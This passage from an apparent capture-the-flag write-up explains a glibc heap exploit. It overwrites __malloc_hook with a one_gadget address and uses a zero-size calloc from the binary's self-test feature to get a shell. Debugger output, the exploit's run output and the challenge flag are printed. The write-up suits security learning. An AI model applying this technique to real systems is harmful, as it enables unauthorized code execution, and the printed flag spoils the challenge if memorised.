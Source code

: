 If we overwrite our malloc hook with the first suggested one gadget `0xe6c7e` and execute the creation of the new secret, we will observe that none of the register combinations are aligned to execute `/bin/sh`:
```
pwndbg> i r r12 r15 rdx rsi
r12            0x64                100
r15            0x0                 0
rdx            0x64                100
rsi            0x0                 0
```

This is because of the definition of the chunk size passed to `calloc`. Unfortunately, this cannot be circumvented easily if we want to create a new secret. But, recall that the _self-test_ feature is available, which will perform a `calloc` call with a 0 size chunk (hopefully giving us clear registers in the process). We test this assumption:

```
pwndbg> b *__malloc_hook
Breakpoint 1 at 0x7f9b2b1b4c7e: file execvpe.c, line 67.
pwndbg> c
Continuing.

Breakpoint 1, maybe_script_execute (envp=<optimized out>, argv=<optimized out>, file=<optimized out>) at execvpe.c:67
67	execvpe.c: No such file or directory.
...
pwndbg> i r r15 r12 rdx rsi
r15            0x0                 0
r12            0x0                 0
rdx            0x7f9b2b1b4c7e      140304419867774
rsi            0x56454ed75413      94855675466771
```

Great! The `r15` and `r12` registers are set to `NULL` when the `malloc_hook` call is performed, meaning that that _self-test_ option will give us a shell. 

The full exploit script with comments is in `solve.py`:
```sh
$ python3 solve.py 
[+] Opening connection to localhost on port 9000: Done
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
malloc hook is at 0x7fad60ba8b70
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls -al
total 36
drwxr-xr-x 1 root root  4096 Dec 27 14:59 .
drwxr-xr-x 1 root root  4096 Dec 27 14:59 ..
-rwxr-xr-x 1 root root    66 Nov 26 17:42 flag.txt
-rwxr-xr-x 1 root root 17936 Dec 27 14:59 lolpass
-rwxr-xr-x 1 root root    29 Nov 26 17:42 start.sh
$ cat flag.txt
ibctf{d0-n0t-put_y0ur_b3d-1n-fr0nt-0f_th3_d00r-cuz-u_w0nt_g3t-in}
```
